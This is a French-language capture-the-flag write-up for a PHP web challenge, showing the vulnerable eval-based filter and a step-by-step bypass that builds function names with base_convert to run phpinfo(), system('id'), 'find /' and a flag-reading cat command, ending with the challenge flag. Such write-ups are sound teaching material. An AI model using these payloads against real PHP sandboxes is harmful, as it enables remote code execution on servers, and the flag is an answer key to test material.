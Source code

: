 # PHP2
```
200 pts
```

## Description
```
[FR]
J'adore les calculs et la convertion en base, mais connais-tu PHP?

[EN]
I love calcul and base convert, but do you know PHP ?

Author: 5c0r7

http://ctf.hackerlab.bj:1030 http://ctf.hackerlab.bj:1030?source
```

> Pour ce challenge nous disposons d'une application web mais également du code source PHP de ce dernier.

```PHP
<?php error_reporting(0);function h4ck3r($admin_command) {preg_match_all("/([a-z_]+)/", strtolower($admin_command), $words);$words = $words[0];$white = ['base_convert'];$charset = str_split('_abcdefghijklmnopqrstuvwxyz0123456789.+-*/%()[],');var_dump($admin_command);$O_K = true;for ($i = 0; $i < count($words); $i++) {if (strlen($words[$i]) && (array_search($words[$i], $white) === false)) {$O_K = false;}}for ($i = 0; $i < strlen($admin_command); $i++) {if (array_search($admin_command[$i], $charset) === false) {$O_K = false;}}if (strlen($admin_command) > 180) return "Bad H4ck3r, less expression plz!!!";$output = '';if (($O_K) === false) $output = "Attack detected, you're not admin.";else eval('$output=' . $admin_command . ";");return $output;}if (isset($_GET['source'])) {show_source(__FILE__);die();} ?>
```
> Après avoir analyser le code nous avons compris que la fonction *h4ck3r* prend en parametre *admin_command* et verifie si il repond à certains caractéristiques, si c'est le cas il l'envoie à la fonction *eval*.

> Seule la fonction base_convert peut etre executer et notre entrer ne doit pas exéder 180 caractères. Apres quelque recherche nous avons compris comment nous pouvons executer du code php grace aux fonctions mathématiques.

> La premier chose que nous avons fais est d'exécuter la fonction *phpinfo* en utilisant *base_convert*. Nous allons convertir *phpinfo* de la base 36 à la base 10.

<image src="File/php1.png">
  
> Donc ```base_convert(55490343972,10,36)()``` revient à ```phpinfo()```

<image src="File/php2.png">

> On arrive à executer la fonction *phpinfo()*.
> L'objectif maintenant est d'executer les commandes systeme. Nous allons convertir *system* de la base 36 à la base 10 ainsi que *id*
<image src="File/php3.png">
  
> Donc ```system('id')``` est égale à ```base_convert(1751504350,10,36)(base_convert(661,10,36))```

<image src="File/php4.png">
  
> Maintenant que nous arrivons à exécuter les commandes système, nous avons cherché le fichier flag sur le système. Cependant, en raison d'une limitation sur le nombre de caractères, nous ne pouvons pas exécuter des commandes de certaine longueur, car il faut à chaque fois effectuer la conversion dans une base donnée.

> Nous avons alors decidé d'executer la commande ```find /``` pour enumeré tout les fichiers du serveur. Mais cette commande contient un *espace* et un *slash* donc nous allons utilser la fonction ```chr``` de php suivi de leur code ascii respectif. ```' ' = chr(32)``` et ```/ = chr(47)```

<image src="File/php7.png">
  
> Donc ```system('find /')``` revient à ```base_convert(1751504350,10,36)(base_convert(724009,10,36).base_convert(9911,10,28)(32).base_convert(9911,10,28)(47))```.

<image src="File/php8.png">
  
<image src="File/php9.png">
  
> Le fichier flag ce trouve à la racine du serveur nous allons utilsé cette commande pour la lire ```cat /.``` ce qui est egale à ```base_convert(1751504350,10,36)(base_convert(15941,10,36).base_convert(9911,10,28)(32).base_convert(9911,10,28)(47).base_convert(9911,10,28)(46).base_convert(9911,10,28)(42))```

<image src="File/php10.png">

 # Flag

 ```CTF_cOnv3r7_b@5e_c4n_RCE_hehehaaaa``` 🥳
